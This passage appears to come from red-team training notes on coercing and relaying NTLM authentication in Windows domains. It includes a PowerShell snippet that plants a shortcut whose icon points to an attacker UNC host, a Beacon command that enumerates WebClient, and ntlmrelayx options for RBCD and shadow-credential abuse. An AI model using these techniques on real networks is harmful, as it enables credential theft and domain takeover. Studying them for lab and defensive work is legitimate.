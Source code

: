 A sneakier way is modify the sender's email signature so even legitimate emails they send will trigger NTLM authentications from every recipient.

### Windows Shortcuts

A Windows shortcut can have multiple properties including a target, working directory and an icon. Creating a shortcut with the icon property pointing to a UNC path triggers an NTLM authentication attempt when it's viewed in Explorer (wihtout clicking). A good location for these is on publicly readable shares. In PS:

    $wsh = new-object -ComObject wscript.shell
    $shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
    $shortcut.IconLocation = "\\10.10.123.102\test.ico"
    $shortcut.Save()

### Remote Authentication Triggers

[SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers), and [PetitPotam](https://github.com/topotam/PetitPotam) can force a computer into authenticating to us. Generally work via Microsoft RPC protocols like [MS-RPRN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and [MS-EFS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/4892c610-4595-4fba-a67f-a2d26b9b6dcd).

## Relaying WebDAV

Web Distributed Authoring and Versioning (aka WebDAV) allows for basic file operations (create/copy/move/delete) over HTTP. Windows supports the use of WebDAV via Explorer where users can enter a URI or map a drive to a WebDAV server. The WebClient service facilitates Explorer's ability to use WebDAV. This is set to DEMAND_START by default, so is generally only running if a user has actively used a WebDAV resource. Some Windows technologies, such as SharePoint, use WebDAV fairly heavily.

    C:\Users\bfarmer>sc qc WebClient

WebClient exposes a named pipe called DAV RPC SERVICE, which allows to enumerate remote targets to establish whether the WebClient service is running. [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) provides C# and BOF projects that check for the presence of this named pipe:

    beacon> inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2
    [+] WebClient service is active on wkstn-1
    [x] Unable to hit DAV pipe on wkstn-2, system is either unreachable or does not have WebClient service running

This shows that the service is running WKSTN-1 which makes it a target for this attack. The steps are to coerce the service into authenticating to a malicious WebDAV server that we control and then relay the authentication. We can force authentication over any port. All we need to ensure is that whatever port we choose is allowed inbound on the host firewall we're reverse port forwarding from.

The incoming authentication material will be that of the machine account. ntlmrelayx can relay this to LDAP on a domain controller to abuse either RBCD (using the --delegate-access flag) or shadow creds (using the --shadow-credentials flag). In either case, run the HTTP server on a port that will not clash with any of your HTTP listeners. This example uses port 8888:
